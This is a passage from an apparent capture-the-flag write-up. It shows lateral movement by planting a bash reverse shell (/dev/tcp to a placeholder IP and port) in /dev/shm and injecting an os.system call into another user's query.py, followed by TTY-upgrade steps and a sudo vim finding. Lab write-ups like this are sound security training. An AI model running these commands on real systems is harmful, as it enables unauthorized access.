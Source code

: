 Given that we are part of the ```administrators``` group, we can assume we have write permissions over other users' files.

We can now try to become ```adrian``` by creating a reverse shell script and adding two lines in ```query.py``` to call it.

The reasoning behind this is we can assume that the script is automatically running under the user ```adrian```. While we don't currently know what group he's in or what privileges he owns, we'll at least be finding/doing something otherwise not possible while in ```daniel```'s account.

We will create the script ```shell.sh``` in ```/dev/shm```, in shared memory.

We can create the script using the following Bash code:

```
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```

![privesc4](https://user-images.githubusercontent.com/45502375/170441742-2edc6ed9-b6d8-4637-a90e-6671d235214c.PNG)

Then, we will edit ```query.py``` to include the following lines, executing the shell:

```
...
import os

os.system('/usr/bin/bash /dev/shm/shell.sh')
...
```

![privesc5](https://user-images.githubusercontent.com/45502375/170441757-6d3fe6db-a2f2-4155-a24f-64ed5ebaef10.PNG)

Now we can start another NetCat listener on port ```5555``` and successfully gain access as ```adrian```.

![privesc6](https://user-images.githubusercontent.com/45502375/170441772-d4643444-6c2e-4535-a40b-ffab339bf02c.PNG)

Next we'll upgrade to a full TTY shell using the following commands/steps:

	1 - python3 -c 'import pty;pty.spawn("/bin/bash")'
	
	2 - (press Ctrl+Z)
	
	3 - stty raw -echo;fg
	
	4 - (press ENTER twice)
	
	5 - export TERM=xterm

![privesc7](https://user-images.githubusercontent.com/45502375/170443449-e8594ee8-8868-45a7-82e3-7b2d76ada2ff.PNG)

## Step 3 - Privilege Escalation

The command ```sudo -l``` shows that we can run vim as root without a password (really?...):

![privesc8](https://user-images.githubusercontent.com/45502375/170441805-bc0b5d81-1378-4a0b-8889-af24eedd3701.PNG)
